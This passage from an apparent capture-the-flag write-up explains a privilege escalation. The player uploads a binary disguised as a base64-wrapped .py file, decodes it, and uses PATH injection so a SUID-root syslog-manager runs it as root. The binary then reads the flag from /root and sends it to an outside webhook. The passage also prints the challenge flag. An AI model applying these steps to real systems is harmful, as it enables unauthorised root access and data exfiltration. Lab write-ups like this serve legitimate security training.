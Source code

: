 ```rust
        .send()
        .await?.text().await?;

    Ok(())
}
```

The compiled binary was then base64 encoded into a new file, where the contents was wrapped in `"` and then uploaded as a `.py` file using the API on the website. After the file was uploaded we just needed to clean it up, make it executable and then add it to our `$PATH` and activate syslog-manager.

```
cat cleaner.py | cut -d'"' -f 2 | base64 -d > cleaner
chmod +x cleaner
PATH="/home/ctfplayer/:$PATH" syslog-manager clean
```
### SUID Binary abuse via Path injection

The reason why this trick works is because the syslog-manager (that have SUID root) executes the command cleaner without specifying an absolute path. By adding a directory containing our own cleaner binary to the start of the `$PATH`, we make sure that when syslog-manager runs cleaner, it executes our binary as root, hence giving it full root privileges. The binary then runs a shell command to read the flag from /root and sends it to the webhook.

To gain the flag we just run the `syslog-manager clean` command and it will output the flag to our webhook.

![Root flag](/assets/img/brunner/rootflag.png)

**Flag: brunner{sl1pp3d_p4st_s3cur17y_4nd_g0t_b4cks74g3_4cc3ss}**